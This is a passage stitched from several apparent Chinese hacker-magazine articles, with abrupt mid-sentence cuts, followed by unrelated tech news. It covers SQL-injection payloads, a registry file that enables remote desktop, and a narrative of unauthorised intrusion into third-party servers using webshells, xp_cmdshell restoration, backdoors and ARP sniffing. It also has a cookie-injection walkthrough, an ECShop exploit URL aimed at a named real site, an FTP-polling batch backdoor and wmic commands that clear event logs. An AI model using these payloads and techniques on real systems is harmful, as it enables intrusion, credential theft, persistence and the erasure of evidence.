另外顺便提一下，Oracle 下的字符串连接可以使用 “||”，MySQL 中也可以这样用，不过前提是 MySQL 工作于 ANSI 环境下，否则它将会把 “||” 解析为逻辑或。

例如：`SELECT login || '--' || password FROM members`

上面基本上展示的是注释符的本份工作，但是注释符的能力可不止这些，它还有潜力可供挖掘。`/*comment*/` 是最常见的注释形式，其实在 MySQL 下还有一种经常被忽略的形式—— `/*! MYSQL Special Comment*/`。我们可以利用 MySQL 的这一特性来判断 MySQL 服务器的版本，例子如下：

```sql
-- e.g.
SELECT /*!32302 1/0, */ 1 FROM tablename
```

如果服务器的 MySQL 版本高于我们提供的 “3.23.02”，那么就会抛出 “division by 0 error”。当然，在 MySQL 环境下，我们也可以通过 `@@version` 获得 MySQL 版本。

### 二、基于报错的 SQLi 技术

接下来，我们再来看看基于报错的 SQLi 技术。寻找列名时，我们在 SQL Server 上可以使用 HAVING 语句，例子如下：

```sql
-- e.g.
' HAVING 1=1 --
' GROUP BY table.column_from_error1 HAVING 1=1 --
' GROUP BY table.column_from_error1, column_from_error2 HAVING 1=1 --
...
' GROUP BY table.column_from_error1, column_from_error2, column_from_error(n) HAVING 1=1
-- ......（直到不报错为止）
```

然而，这种方法是十分耗费气力的，我们也可以通过查询 sysobjects 表的方法来获取列名，例子如下：

```sql
-- e.g. 
SELECT name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'tablename_for_column_names')
```

在 MySQL 环境下，从内置表中获得信息则是一个不错的选择。相比之下，这种方法要文雅得多，当然，前提是字段能被输出到页面。下边是注入语句：

```sql
-- e.g.
' union all select 1, column_name, 3 from information_schema.columns limit 0,1/*
```

用类似的原理我们还能获得数据库的许多其它信息，而不必用蛮力。获得列数时用 `ORDER BY` 语句便可轻松实现，例子如下：

```sql
-- e.g.
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY N--
-- ......（直到报错为止）
```

获得列的数据类型，可以参照以下方法：`' union select sum(column_to_find) from users--(SQL Server)`。如果 column_to_find 的数据类型是整数的话，程序不会报错；

步了，很快就会占领桌面的。Carl 心底给自己暗暗打气，很快找到了导入注册表开启 3389 的方法。

Win2000 开启 3389 端口的注册表要比 2003 的冗长很多，请看如下代码：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"Enabled"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"Start"=dword:00000002
[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000D3D
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000D3D
```

以后的工作，Carl 已经是轻车熟路了，`regedit /s d:\3389.reg`，Win2000 Server 需要重启才生效。输入 `iisreset /reboot`，服务器重启之后，登录 3389。后来，Carl 又把终端端口改成了 2049，起码这样不是那么容易被管理员发现。

终于登上了桌面，Carl 舒了一口气，然后就是配置 VPN 服务……几分钟后，Carl 的音响再次响起了令人激动的 “our town is under attack”！

> **编辑点评：** 作者将技术步骤和情节描写结合得还不错，不至于偏颇于小说，这也是我编发这篇文章的理由。

**本文写的是一次很详细的渗透经过**

## 前言

某日我在找资料的时候，点击到了一个 XX 黑客网站，噢！怎么貌似有印象？记得以前好像有人给我说过这个站，还不错，会员好几万，不知道安全怎么样，于是看着看着便动了邪念。

## 整装待发

主站是动网的系统，论坛是 PW 的，还有几个分站，不过这似乎没有突破点。无奈之下打开 www.ip866.com 旁注了下，上面倒是有站！不过好像都是他的几个分站，有一两个其它的站，但是都是 DZ 的论坛程序，还有一个是某位黑客的博客！看来旁注这条路是走不通了，我又重新用域名以及注册信息做了一个字典扫了下 FTP，希望有弱口令，但最后也失败了！

既然旁注不行，那么我们只能搞 C 段 ARP 了，但愿没有 ARP 防火墙（后来证实的确如此）。大家知道了，一般 C 段基本都是两个或者两个以上网关，要是搞到的服务器不在同一个网关，岂不得重新来过？

我 ping 了下，得知目标机器是 14 号，那么我们就搞这个数字附近的机器，那就从 10 到 40 开始，避免做的是无用功！用 Hscan 扫了会儿，发现好多都是用 Serv-U，这就有很大的可能性搞到服务器来对目标进行嗅探了！

自己一个人搞岂不是无聊之极？于是叫上了飞狼、小三和小冰一起搞，分工之后我就从 18 号机器开始了，一连找了几个站都没有拿到 shell，不是找不到后台，就是猜解不出账号和密码，或者是做了防注射……

当心灰意冷之时，打开一个站，一用单引号，立马弹框框，一看就知道这类用的是通用防注射，只过滤了 GET 和 POST，未对 Cookie 过滤。这时我没有去立马进行猜解账号和密码，而是先去找了下后台，后台隐藏的还很深，但还是被找出来了，如图 1。

立马搞出 jsCookie 射了起来，不到一会搞定了管理员账号和密码，成功进入后台，如图 2。

我原本以为这样的站提供有上传基本就可以搞定，可是后来发现不行！好在还有数据库备份功能，可是居然不能修改，本想本地备份，可是老出问题！就在我郁闷之时无意间的点击了“常量设置”，竟然发现这里可以修改数据库路径！我修改了之后问题又出来了，备份功能不能使用了，如图 3。

## 西线无战事

是的！原来管理员经常操作一些东西，于是桌面上自然而然的就放了一些东西！有了 root 那就导出 UDF 提权，可是发现导出 UDF 失败，还是麦咖啡（McAfee）作怪！我无语了！

这时候小冰说这个服务器被人搞过了，有 shift 后门，一测试，果然是的！可惜我们不知道他的密码！不是有 FTP 么？于是直接把 `windows\system32\sethc.exe` 和 `windows\system32\dllcache\sethc.exe` 替换为 cmd，然后 5 下 shift……还不行！还是要输入密码！

这时候飞狼说了，估计对方做了映像劫持，可惜我们找不到路径，不过他说要是有远控马就好了，他这个要用到 WinRAR.exe 来解压。我们把这个 WinRAR.exe 文件替换成木马，然后按 5 下 shift 的时候就会运行我们的马。

我又仔细的看了下，看到了 “Include/Const.asp”，你们想到了什么？我打开了这个页面发现一片空白，于是先把“常量设置”里面的内容复制下来，不然一会人家网站就出错了！全部删除内容并改成自己的一句话，再回过头来看看，用一句话客户端进行了连接，那个 OK！拿到了 webshell 啦！如图 4。

## 艰难提权

可是问题又来了，没有免杀马啊，要是有的话，前面的 FTP 就能搞定了！

正在我们发愁之时，飞狼和小三说用 Bloodsword 大牛的马在 “D:\Program Files\复件 BlueLight” 里面找到了 sa 和 root！我一看，果然如此！如图 7。

前面说了，root 提权导出被杀，那么我们就从这个 sa 下手。我连接上去之后，看了下版本，是 MSSQL 2000 的，执行建立账号失败，提示缺少 “sp_addextendedproc” 存储过程，立即直接恢复 sp_addextendedproc 存储过程，如图 8，执行代码如下：

```sql
create procedure sp_addextendedproc
@functname nvarchar(517),
@dllname varchar(255)/* name of DLL containing function */
as
set implicit_transactions off
if (@@trancount > 0)
begin
raiserror(15002,-1,-1,'sp_addextendedproc')
return (1)
end
dbcc addextendedproc(
@functname, @dllname)
return (0)
GO
```

上传了一个大马，现在管理员安全意识提高了，一般 WS 组件都是被删除的，这个也不例外（后来发现用的是蓝芒虚拟主机，大家都知道虚拟主机不好提权）！还好上面有 SU（后来发现没有那么简单），扫了下端口，1433、3306、3389 以及 43958 都开放了，试了下 SU 提权，貌似不行！我把权限丢给了朋友一起搞，这时他们用 Bloodsword 大牛的 shell 找到了 SU 的目录，在 D 盘！我一看，果然如此，SU 提权失败是因为有安装密码！

我看了看，居然发现了一个 admin 的用户，竟然是 system 权限，如图 5。我 FTP 上去跳转到 system32 之后执行 “quote site exec net user 账户 密码 /add”，发现失败！如图 6。

我上传了一个 net 也不行，这时本想用远控木马上传上去执行，可是发现杀软是麦咖啡……于是把这个 FTP 给小三，一会小三告诉我发现了 root 密码！在哪？他说用 FTP 连接工具连接上去之后，在 Administrator 的桌面上面找到了 root，我一看，果然。

然后利用 sp_addextendedproc 存储过程恢复 xp_cmdshell 扩展存储过程：`EXEC sp_addextendedproc 'xp_cmdshell','xplog70.dll'`。不过很不幸的是，提示找不到 xplog70.dll 这个 dll 文件。

没有那就上传吧，直接用 SQLTOOLS 连接上去上传一个 xplog70.dll 文件到系统目录中，然后再次执行上面的语句，又提示 xp_cmdshell 对象已经存在，我晕，那删除了再恢复吧！语句：`EXEC sp_dropextendedproc 'xp_cmdshell'`，如图 9。

哈哈，终于恢复成功了。这时候我执行建立用户却发现原来是对 net 做了手脚，我们上传 net 也不行。怪不得我当时登录上去时不能建立用户！那不是有个 shift 后门么？我们就从那个后门下手！最后读取注册表找到了映像劫持的路径，于是我们替换之后，远程登录按 5 下 shift，CMD 出来了，如图 10。

前面说了由于对 net 做了限制不能建立用户，于是我们只能克隆一个账户，传了一个 aio 发现被杀！汗……又找了其它工具 clone.exe，成功得到一个账户进入终端！

进了服务器之后，我们把 hash 抓了一下，以防万一。下载 Cain 安装，发现竟然不能打开，很显然是服务器做了设置，刚开始我以为是麦咖啡，于是关闭了它，把 WinPcap 换版本也不行，因为以前嗅探的时候并没有遇到这种情况，应该不是 WinPcap 的问题吧？

死马当活马医吧！冒着生命危险重启了服务器，可是还是这样。无奈，其它的嗅探工具试了也不行！最后问了下朋友，试了试他说的办法也不行，如图 11。

## 另觅他径

这个时候我不得不再去找一个目标，由于目标机器是 14，这次我盯上了 13 号机器，另外还有一个原因，13 号机器上面有一个 XX 数据中心，因为这个段有几个 IDC，我还以为目标站是在这几个 IDC 买的空间（后来确定不是的，而是独立的），于是重点盯着这几个 IDC 服务器上面。

这次小心翼翼的找，生怕漏掉了东西，因为前面浪费了太多时间，无异于重新来过！找了半天，竟然找到了 13 号机器上面的一个 DB 点，可以列目录。由于马上要去上课了，就把点丢给了飞狼，如图 12。

等到回来的时候，飞狼已经拿到了 shell，他说这个服务器好像也用的是蓝芒，估计路径什么的都差不多，虽然有 SU，但是都得安装密码的，无法提权。果然，我们也在同样的路径找到了 SA 和 ROOT，这样拿下也不是问题了！于是成功建立了一个用户，发现 3389 是关闭的，估计改了端口，于是拿起扫描器开始扫了起来，半个小时之后发现了一个可疑的端口 52014，连接之后发现果然是终端端口，如图 13。

进了服务器之后，找到了那个 IDC，最后发现目标网站不是在这个 IDC 买的空间，飞狼说估计是独立的。后来我在 G 盘 soft 的目录下找到了 FlashFXP，但是没有目标站，也懒得去弄这些跟目标站不着边的站了。

接着开始嗅探，可是嗅探了半天居然没有数据，我试着随便输入账号登录了下 FTP，却没有记录下来！难道 14 号机器有防火墙？可是我看了下拿下的 18 号和 13 机器，都没有安装 ARP 防火墙啊？其他的机器应该是同样的！

过了一天，一个朋友说估计是 system32 下 nppntools.dll 文件的问题。我网上找了下，果然是的，于是登录上机器，给这个东西赋予权限之后，发现 18 号的 Cain 能打开了！这样就成功了，我两台机器同时嗅探，不信嗅探不到东西！不到一会，飞狼发过来截图，可以嗅探到东西，当然其它的机器没有太大的用处，我们只嗅探目标站和那几个 IDC 服务器！

这样，一来嗅探目标机器，二来万一目标站要是在那几个 IDC 买的服务器呢？于是我们筛选了一下，确定了 8 号以及 29 号 IDC 机器和 14 号目标机器！大约过了有一两个小时，飞狼说嗅探到了 8 号 IDC 的 FTP 了，于是我兴冲冲的跑上去看了下，权限很大，整个盘的权限都有了（包括机器上面所有的网站），如图 14。

首先我把整个 FlashFXP 给拖了回来，可是问题又来了，我打开 FlashFXP 程序的时候却提示要输入密码，真败兴！于是把 Stats.dat、quick.dat 以及 Sites.dat 三个文件给替换到我虚拟机里的 FlashFXP 下，打开后发现，里面没有其它站，只有一个 8 号机器备份文件夹。

既然里面没有，那么我们就从那个 IDC 下手吧！弄了半天也没有发现目标站是在这个 IDC 买的空间，也懒得去拿机器权限了，因为不是我们的目标（后来无聊的时候在那个网站目录翻了半天，找到了 sa，最终搞定！）。这个时候只能等了，又过了几个小时，29 号也嗅探到了 FTP，同样更进一步的证实了目标站是独立的！

由于站点是 ISP 的，于是直接传一个 ISP 大马建立用户，登录终端也安装 Cain 嗅探！于是我三台机器同时嗅探目标站，我就不怕嗅探不到！如图 15、图 16。

## 终得成果

晚上 12 点多钟的时候飞狼睡觉去了，我一个人也睡不着，就等着……果然两点多钟的时候，目标 14 号机器上面某位黑客登录了博客以及 FTP，我不敢动，怕被发现，他们都是黑客，猴精猴精的！

等到凌晨四、五点的时候，我确定某位黑客下了之后，于是登录上去传了一个 shell 看了看，无语……权限太小了，连“C：\Documents and Settings\All Users\「开始」菜单\程序”都不能浏览。由于只是目标站给他友情提供的空间，所以网站路径不可能和目标站是在一起的，而且不支持 ASPX，只支持 ASP 和 PHP！看了半天，放弃了提权，如图 17。

经过好长时间的嗅探，终于拿到了目标站的权限！可是发现，权限还是很死，原本想趁势拿下服务器的，可是心有余而力不足！我和飞狼弄到最后也没有搞到服务器！

不过最后飞狼提供了一个思路，那就是社工！既然这个服务器上只有某位黑客的博客，那就说明他最起码和目标站的站长认识或者熟悉。在他的 FTP 上面看了下，有好多工具，估计是经常使用的，而且部分是不开杀的，那么他使用的时候肯定是要关闭杀毒软件的！那么这些不开杀的工具就给我们提供了一个不错的载体，如果我们进行捆绑，从而控制此黑客的个人 PC，然后通过此黑客来继续下去，估计能慢慢的搞定服务器！当然这只是一个思路，还要看怎么去运用了，社工运用的好同样是威力无比的！

**总结：** 大家知道，当穷注没有出路，倘若对方没有安装 ARP 防火墙的时候，搞 C 段提权未尝不是一种办法！例如这个网段如果我们想继续渗透的话，估计能拿下更多的服务器，因为最后我们看到了全部主机都没有防 ARP。另外，用的都是蓝芒程序，而且基本路径什么的都是相似的，这是一条很有用也很有杀伤力的信息，因为我们已经知彼了。只要嗅探到 FTP，基本就有 60%的希望拿到服务器，当然除了极个别权限设置的特别死的主机！最后感谢一同并肩作战的兄弟们：飞狼、小三和小冰！

> **编辑点评：** 这篇文章我看完后只能感叹，你们的运气真是太好了，又是 root，又是 sa 的，剩下的只是体力活了。整篇文章唯一有亮点的就是 Cain 无法使用时的解决方法。不过既然是木马被杀，走了那么多弯路，为什么不去学习一下免杀呢？

## COOKIES 注入详解

本文写的是 COOKIES 注入从原理分析到实例。

随着互联网的普及，各网站管理员的安全意识也在逐步提高，传统的注入方式已经很难像当年那样百试百灵。防注入文件的产生让很多小黑们对网站望而却步，但高手们总是可以在漏洞的蛛丝马迹上进行突破，于是乎，一种比较另类的注入方式产生了，它就是——COOKIES 注入。

当然，提前声明的是，COOKIES 注入的产生是需要很多适合条件的，它只有在满足了所有条件后才会成为可能的利用方式，下面听我一一道来。

### 1. COOKIES 是什么

COOKIES 是什么？让我们看一下“百度知道”的解释：

当你在浏览网站的时候，WEB 服务器会先把一些资料放在你的计算机上。Cookie 会把你在网站上所输入的文字或是一些选择，都记录下来；当下次你再光临同一个网站，浏览器会先查看有没有网站上次留下的 Cookie 资料，有的话就会提取 Cookie 里面的内容进行自动操作。

有了 COOKIES，可以方便我们做很多事情；网站会自动地从 COOKIES 中提取我们之前用过的信息，比如账号和密码，这样不用我们每次访问同一个网站的时候都重新登录；还可以记录一些我们习惯的访问方式等等。

可是 COOKIES 是服务器放在客户机上的一个真实存在的文件，我们是可以手动修改的，这就牵扯出了 COOKIES 的安全性问题。如果用户手动修改了 COOKIES 信息，那么被服务器接受之后，不就相当于欺骗了服务器吗？

### 2. COOKIES 注入的原理

现在你明白了 COOKIES 是什么，也明白了我们可以手动修改 COOKIES，那么当然会想到 COOKIES 注入一定和人为修改 COOKIES 有关了！脚本语言由客户端传递数据到服务器，以完...完成客户端和网站的交互操作。这个传递过程在 HTTP 协议里可以由三种方式实现：GET、POST 和 COOKIES。

**所谓 GET 型传递，就是直接在网址的后面添加参数来进行传递。** 比如我们访问网站时经常看到 `www.123.com/123.asp?id=3` 这种地址，这就是典型的 GET 型传递数据，这种传输方式可承载较小的信息量，但是传递速度是最快的。

**POST 型传递就是我们在填写表单时一般用到的传递方式。** 比如我们注册的时候，点确定后网页自动发送数据给服务器，这一般就是 POST 传递。POST 传递对用户来说是不可见的，但是它的传输量是最大的。

**最后说到的就是 COOKIES 型传递，它一般就是用来传递用户的个性信息的，一般不会被用来直接交互，所以通常会被编程者忽略掉。**

那我们想一下，网站采用的传递方式一般是 POST 或 GET，如果安全性做得还行，它在这两种传参上做了过滤关键字限制，我们一般的注入就无法实现了。可是有一种可能，就是如果我们可以强制把他传参的方式修改为被管理员忽略的 COOKIE 传递，不就可以实现我们的注入了吗？

## 3、COOKIES 注入漏洞的代码实现

这里我们用 ASP 脚本举例，其实所有脚本都差不多，原理都是一样的。如果我们想用 GET 方式传递数据，应该这样写：`id=request.querystring("id")`，这样就限定了为 GET 型传递数据，是不可更改的。类似，POST 型的为：`id=request.form("id")`，也是不可更改的。

可是问题是，有一些编程者比较懒，他认为可以写成：`id=request("id")` 就行；为什么还要分得那么清楚呢？有的人说这是个习惯问题，可是是这么简单吗？

我们了解一下 `id=request("id")`，没有指定采用什么方式接收参数，而只是接收参数，那服务器会怎么办？事实上如果这样写，服务器会这样判断：它会按照 GET、POST、COOKIES 的顺序去寻找客户想要用哪种方式来实现，如果发现不是 GET 传递，就看是不是 POST 传递，再不是就看是不是 COOKIES 传递，如果都不是的话，那当然就报错了。

到此，COOKIES 注入的一个条件诞生：**接收参数时接收方式必须为 `id=request("id")`。** 另一个条件就是编程者没有对 ID 进行转换，比如 `cint(id)` 之类的。

## 4、COOKIES 注入的应用范围

由于 COOKIES 注入是要人为修改 COOKIES 的，所以相对普通注入较麻烦，那什么时候会用到呢？现在很多网站在做的时候并没有对任何参数做限制，而是在网上找一个防注入文件来解决问题。由于网上的防注入文件大部分只过滤 GET 和 POST 型的注入，那么如果程序是这样写了 `id=request("id")`，我们就有了可乘之机，来实现我们的 COOKIES 注入。

## 5、COOKIES 注入实战

我们来找个网站练练手吧，这样会好理解一点，实践出真知。`http://www.123.cc/shownews.asp?id=66` 这个链接我们尝试用单引号判断是否存在注入，结果出现如图 1 的提示框。


把单引号过滤掉了，再看看能否判断有多少个表。执行 `http://www.123.cc/shownews.asp?id=66%20order%20by%2012` 后页面返回错误，如图 2。

再次提交 `http://www.123.cc/shownews.asp?id=66%20order%20by%2011` 时返回正常页面，如图 3。继续尝试联合查询，提交 `http://www.123.cc/shownews.asp?id=66 union select 1,2,3,4,5,6,7,8,9,0,11 from admin`，结果又被防注入程序拦截了，如图 4。

不知道 -1 这个有没有拦截呢？继续提交 `http://www.123.cc/shownews.asp?id=66-1`，结果转向其它页面，如图 5。接着提交 `http://www.123.cc/shownews.asp?id=66-0`，返回正常页面，这就证明是存在注入漏洞！

还记得网上的一篇关于用 -1 判断注入点的文章吗？这里就利用到了。虽然存在注入漏洞，但是我们用 GET 提交注入语句被拦截了，怎么办呢？上面已经分析得很清楚了，我们来尝试 COOKIE 注入吧！

先访问 `http://www.123.cc/shownews.asp?id=66` 页面，然后在浏览器输入 `javascript:alert(document.cookie="id="+escape("66 and 1=1"));`，出现如图 6 的对话框。

点“确定”后刷新一下页面，然后访问 `http://www.123.cc/shownews.asp` 看看是否返回正常，如图 7！OK，结果返回正常，再次刷新一下，之后提交 `javascript:alert(document.cookie="id="+escape("66 and 1=2"));`，出现如图 8 的提示。

“确定”后继续刷新一次，结果访问 `http://www.123.cc/shownews.asp` 时出现了错误页面，如图 9。哈哈，此页面存在 COOKIE 注入。


拿出“寂寞的刺猬”大哥的注入中转生成器，如图 10，选择“COOKIE 注入”，在“注入键名”那里输入“ID=”，“注入 URL 地址”跟“来源页”都输入 `http://www.123.cc/shownews.asp`，如图 11。

“正常的 COOKIE 值”就用明小子工具来获取吧，如图 12，只要用明小子访问一下需要获取 COOKIE 的页面就可以自动获取了。然后把明小子旁注工具上的 COOKIE 值粘贴到中转生成器就可以了（其实 COOKIE 值保持默认就可以的，这里演示一下抓 COOKIE 罢了！）。POST 值就用默认即可。

全部输入完毕后点击“生成”，生成的文件会保存在程序的同一目录下。如果你的电脑有 IIS，就用 IIS 架设一个 ASP 的环境吧，把刚才生成的 `jmCook.asp` 放在网站目录下，访问 `http://127.0.0.1/jmcook.asp?jmdcw=66`，出现如图 13 的页面则代表架设成功！

最后把 `http://127.0.0.1/jmcook.asp?jmdcw=66` 作为注入点放到明小子里去跑内容就可以了，结果如图 14，帐号跟密码都跑出来了，COOKIE 注入成功！接下来的上传 WebShell 跟提权不是本文的重点，就不演示了。

说到这里，大家应该明白什么是 COOKIE 注入了吧！以后检测网站安全就可以利用这个方法去尝试一下。

> 【文章中提到的工具注入中转生成器.exe 和 Domain3.7 已收录在本期光盘】

### 编辑点评：

COOKIE 注入大家应当都会了，但是这样详细的文章在杂志上还是没有的，照顾一下菜鸟了。

## 渗透学院官方网站

From: Link@L.S.T & Cee.Y

**从本文你可以了解：**
- ECShop 2.5 漏洞的利用办法

众所周知，李阳有一个 Blog 和一个网站，虽然很崇拜他的英语能力，但是看到他的网站，就有一种帮他们检测的冲动。经过一段时间慢慢渗透，终于拿到了主站的 Shell。


记得那天李阳讲了一句：你们知道什么是博客吗？这句话令我很郁郁，总感觉有一点瞧不起人的味道，于是就想去看看他们的安全做得怎么样。打开主站 `www.crazyenglish.com`，如图 1，看起来很强悍，像是 PHP 的，至于是哪个系统，一眼很难看出来，不过风格看起来像 PHP 的。心想从主站入手的机会不会很大，于是想旁注一下，或许服务器不怎么样。一看就蒙了，如图 2，全部都是自己的站点。

打开了 BBS（一般我看到有论坛都会去尝试默认数据库），结果发现是 Discuz! 6.0 的论坛。果然是跑在 PHP 下面的站点，数据库就别想了，也懒得去百度这个 Discuz! 版本的漏洞。又打开几个链接，发现其它域名都是指向主站的，难道只能到这里了？不，在主站看新闻的时候，忽然想起我要发挥捡破烂的精神（平时最喜欢扫目录），哈哈，运气不错，让我扫出了一点东西，如图 3。

居然有个 robots.txt 文件存在？！地球人都知道，这个文件就是为了避免爬虫扫描的一个文件，现在反倒让我们利用。其实也没什么好敏感的目录，打开了 administrator 目录，是管理员登录页面，并且让我知道了那个系统是啥，如图 4。

Joomla 的系统前段时间爆过一个漏洞，偷笑之……但是等到试的时候才发现，管理员很勤奋，把漏洞补了。试了默认用户名，理所当然地不能进去，管理员做得挺不错嘛。

这时候又陷入死路，整理一下思路，我们已经知道网站所用的系统了，可是系统又补了以前的漏洞。天啊，给我一个 0day 吧！心想着自己对 PHP 一窍不通，只好放弃白箱测试的想法了。

回到刚才那个论坛，我随手打开 `/admin/` 上去，心想应该会返回一个登录页面，结果给我一个遍历漏洞！如图 5。

不过利用价值不大，因为不能跳目录。哎！无奈之，只好找 L.C.S.T 里面的人了。他们说 Joomla 基本是没办法利用，除非有 0day。过了十几分钟，khjl 那边有进展了，居然发现了一个商城，地址是 `http://www.crazyenglish.com/shop/`，我很无奈，为什么没有扫出来呢？（俗话说：不要太依赖工具……）商城版本是 ECShop v2.5，官方最新的是 2.6.1 左右，听说也爆过漏洞。百度下（我极力推荐大家以后到 `www.sebug.net` 查漏洞，因为百度很多都是忽悠人的），原来爆过一个 SQL 注入漏洞，我这边没有测试成功，My5t3ry 丢给我一个 EXP，看了一下代码，发现核心是：

```sql
http://site.com/user.php?act=order_query&order_sn=' union select 1,2,3,4,5,6,concat(user_name,0x7c,password,0x7c,email),8 from ecs_admin_user/*
```

我们模仿一下，变成如下格式，如图 6：

```sql
http://www.crazyenglish.com/shop/user.php?act=order_query&order_sn=' union select 1,2,3,4,5,6,concat(user_name,0x7

## Windows 命令行功夫

mickey

本文写的是两个命令行小技巧。

因为我现在把渗透平台转到 Ubuntu 了，发现在 Linux 下，对网络支持（wget、curl）和文本处理（sed、awk、grep）的命令很强大，学学 bash，就能写个简单的渗透小脚本。我以前也一直疏忽对 Windows 下命令行命令的整理，直到最近看了几节 SANS 推出的课程，才恍然大悟，原来光通过 Windows 自带的系统命令，也能实现写个小后门、删除日志程序等等，关键还是想象力啊：）。

### 1、使用系统默认命令建立远程命令行 shell

**原理：**

在能控制的一台机器上配置 ftp 服务器（20cn 迷你 ftp 服务器），或者去找一台有读（get）写（put）权限的 ftp 服务器，然后在肉鸡上安装我们编写的批处理后门，该批处理通过 get 到 ftp 服务器取得要执行的命令文本，然后本地运行，最后再通过 put 到 ftp 服务器，把执行的结果返回。代码如下：

```batch
echo open 192.168.1.201>f.txt&echo mickey>>f.txt&echo mickey>>f.txt&echo put output.txt>>f.txt&echo get commands.txt>>f.txt&echo delete commands.txt>>f.txt&echo bye>>f.txt&for /l %%i in (1,0,2) do (ftp -s:f.txt&del output.txt&(for /f "delims=" %%j in (commands.txt) do cmd.exe /c %%j 1>output.txt&del commands.txt)&ping -n 5 127.0.0.1 >nul)
```

脚本简要解释：

```batch
echo open 192.168.1.201>f.txt&echo mickey>>f.txt&echo mickey>>f.txt&echo put output.txt>>f.txt&echo get commands.txt>>f.txt&echo delete commands.txt>>f.txt&echo bye>>f.txt
```

上边的这段代码是生成一个 f.txt 文本，里面存放的是要远程连接 ftp 账户的信息，要 get 回来的 commands.txt 命令集，和要 put 回去的 output.txt 结果集，最后把 ftp 服务器上的 commands.txt 删除。

这里写 bat 要注意 `&` 前后不要有空格，否则生成出来的 f.txt 里的 ftp 账户登录信息会多出空格的，这个问题会导致我们登录 ftp 失败。

`for /l %%i in (1,0,2) do` 是一个 for 死循环，不停地执行 `do()` 内的命令。`for /f "delims=" %%j in (commands.txt) do cmd.exe /c %%j 1>output.txt` 是使用 for 调用 commands.txt 文件里的命令，并且把输出结果放到 output.txt。这里写 bat 要注意，`%j` 要用 `%%j` 来替换，这样才能在 bat 文件里生效。

**实际效果：**

在 192.168.1.69 肉鸡上运行 bat，会看到释放出了 f.txt。在 192.168.1.200 的 ftp 服务器上放置 commands.txt，commands.txt 内容为 `net user kj021302 pt007 /add && ipconfig && ver`。过大概 4 秒的时间，ftp 服务器上的 commands.txt 被删除了，随后多出一个 output.txt，里面就是运行结果了。

### 2、使用 wmi 删除日志及开启远程桌面

WMIC 可以做很多事情，可以操作“进程管理”（如 `wmic process list brief`）、“服务管理”（`wmic service where started="true"`）、“系统补丁信息”（`wmic qfe where fixcomments="update" get hotfixid,installedon,installedby`）等等。我说一个在渗透时最有用的吧，清除系统日志：

```batch
C:\>wmic nteventlog where (description like "%secevent%") call cleareventlog
C:\>wmic nteventlog where (description like "%sysevent%") call cleareventlog
C:\>wmic nteventlog where (description like "%appevent%") call cleareventlog
```

> **编辑点评：** 我有个感觉，好像很多黑客有种观念，就是不屑于用 Windows 来做事情。其实，我个人认为 Windows 下的命令行功能不弱于 Unix 的，关键是 Windows 的图形界面强大得让大家忽视了命令行下的功能研究。本文举的两个例子还是太简单，关于 wmic 的更多研究，读者可以去搜搜以前在“黑手”杂志上的文章。

---

首语：谣传 Google 的操作系统 Chrome OS 要问世了，好大一块石头砸水里了……据说 Chrome OS 主要功能是基于 Chrome 浏览器的，这是我最喜欢的一种操作系统模式，很期待啊！我一直用的也是 Chrome 浏览器，因为够简洁，可惜的是，Chromium 怎么就这么不争气呢？Google 说 Linux 下很多功能难实现，可人家火狐怎么做的这么好呢……


### 1、“云操作系统”时代即将到来？

什么是“云操作系统”？“云操作系统”即采用“云计算”、“云存储”方式的操作系统。那什么又是“云计算”呢？“云计算”是 IT 产业较为时髦的词语，一般是指分布式计算，途径在各数据处理中心设置计算机服务器群，将“云计算”作为一种服务，提供用户使用。“云存储”亦然：把用户的数据存储在“云网络”中，从而避免使用本地资源进行存储，实现异地使用存储资源的目的。

微软的“云操作系统”，其开发代号为“Red Dog”。同时，Azure 也是一个开发环境，方便开发者为“云计算”开发相关的应用。正如微软现任首席架构师 Ozzie 在其 PDC 上谈及 Azure 的发布时所说的那样，“该产品奠定了未来 50 年系统的基础”，可见微软对该 Azure 平台所寄予的厚望。

Windows Azure 能够支持现有微软工具，包括 Visual Studio、.Net，以及包括 SharePoint 和在线服务在内的各种云服务。不需要更大的投资，这就是会受到用户欢迎的原因。

**凤凰点评：** 对于微软的 Windows 7，大家都还在翘首期盼，而“云操作系统”的概念突然就冒出来了，感慨时间真是飞逝啊！从介绍来看，难道以后操作系统就相当于是个客户端？并且可以通过网络使用空闲的计算机硬件来进行计算和存储？这年头都提倡共享了……

### 2、Android 运行速度超过 Windows 7

在 Computex 展会上（注：Computex 大展是全球第二、亚洲最大的国际电脑展，地点在台北世界贸易中心），Android 在设备上的运行速度很快，足够灵活，而 Windows 7 则稍微逊色。

权威调研机构 Gartner 在报道中指出，谷歌操作系统 Android 已经成功侵入上网本市场，将对微软的 Windows 7 产生足够的威胁。在 Gartner 的半导体 DQ 报告中，分析师 Christian Heidarson 和 Ben Lee 指出，Android 是第一款具有强大消费品牌的 Linux 操作系统，背后的开发者是搜索巨头——谷歌，其品牌效力也是不可忽视的。

虽然 Gartner 并没有特意地强调 Android 的运行平台，只表示 Android 正在研发过程中，但是 Gartner的报告还是为运行在带有低性能 ARM 处理器上的 Android 带来了市场。相信不久的将来，Android 与运行在英特尔 Atom 处理器上的 Windows 7 免不了有一场硬仗要打。

**凤凰点评：** Android 在上网本上的发展我们关注很久了，它在瓜分了手机市场之后，看来在上网本上再分一大杯羹也是必然的事情了。不过目前 Android 的主战场还是在手机上，预计今年年底，将会有 18-20 款 Android 手机推出，而中国厂商，像海尔等，也会有自己的 Android 手机问世。不过可惜的是面向海外发售，估计还要过一段时间才能迎来国内 Android 大发展宏图的时候。

